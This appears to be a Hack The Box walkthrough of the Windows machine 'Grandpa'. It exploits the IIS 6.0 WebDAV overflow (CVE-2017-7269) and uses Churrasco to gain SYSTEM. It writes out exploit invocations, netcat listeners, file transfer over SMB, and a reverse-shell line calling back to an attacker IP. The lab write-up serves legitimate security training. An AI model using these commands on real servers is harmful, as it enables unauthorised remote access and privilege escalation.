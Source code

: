 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge."
date: 2025-05-21
classes: wide
header:
  teaser: /img2/grandpa.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow [RCE]
  - Token Kidnapping - Churrasco [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open --min-rate 5000 -vvv -n -Pn 10.10.10.14
```

![](/img2/Pasted%20image%2020250520201054.png)

- Whatweb

```bash
whatweb http://10.10.10.14/
```

![](/img2/Pasted%20image%2020250520201221.png)

- Gobuster

![](/img2/Pasted%20image%2020250520203203.png)


## Exploitation

- Buffer Overflow

```bash
searchsploit IIS 6.0
```

![](/img2/Pasted%20image%2020250520220356.png)

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell

```bash
python2 exploit.py 10.10.10.14 80 10.10.16.7 9000
```

```bash
rlwrap nc -nlvp 9000
```

## Post-exploitation

- Check user privileges

```cmd
whoami /priv
```

![](/img2/Pasted%20image%2020250521094110.png)

- Check OS Version

```cmd
systeminfo
```

![](/img2/Pasted%20image%2020250521105130.png)

- Copy nc and churrasco

```bash
impacket-smbserver smbFolder -smb $(pwd) -smb2support
```

https://github.com/int0x33/nc.exe/blob/master/nc.exe

```cmd
copy \\10.10.16.7\smbFolder\nc.exe
```

https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

```cmd
copy \\10.10.16.7\smbFolder\churrasco.exe
```

- Run reverse shell as system

```cmd
echo nc.exe 10.10.16.7 4444 -e cmd.exe > exploit.bat
```

```cmd
churrasco.exe -d exploit.bat
```

![](/img2/Pasted%20image%2020250521105034.png)

```bash
rlwrap nc -nvlp 4444
```

![](/img2/Pasted%20image%2020250521104740.png)